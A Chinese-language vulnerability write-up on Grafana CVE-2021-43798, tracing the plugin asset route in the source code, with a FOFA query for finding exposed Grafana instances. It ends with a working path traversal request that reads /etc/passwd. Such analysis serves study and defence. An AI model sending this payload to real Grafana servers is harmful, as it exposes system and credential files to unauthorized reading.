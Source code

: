 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

<a-checkbox checked>Grafana 8.x</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Grafana_Labs-公司产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638885570573-25d2b257-36c8-43a7-bf8f-f552193f6649.png)

下载源码进行本地分析

```php
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![img](../../../.vuepress/public/img/1638885654432-3d019c1a-81fd-429d-9667-6c1e829b694e.png)

```php
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![img](../../../.vuepress/public/img/1638885718491-08933f1d-ee0f-4eaa-b5d7-859c4889d2b7.png)

从请求路径中获取 **/public/plugins/** 后的参数赋值给 **pluginID,** 然后再被拼接至 **pluginFilePath** 进入文件读取片段

```go
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![img](../../../.vuepress/public/img/1638886241407-a47b7e8e-47fb-4481-8719-c532b51a5fa0.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```go
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 **public/app/plugins/panel**

![img](../../../.vuepress/public/img/1638886549610-16b0f045-996a-4e0d-86db-4b6c83a3a989.png)

构造请求

```go
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1638886726559-aa047e67-0bca-4b8c-bb07-4a9af6226e6e.png)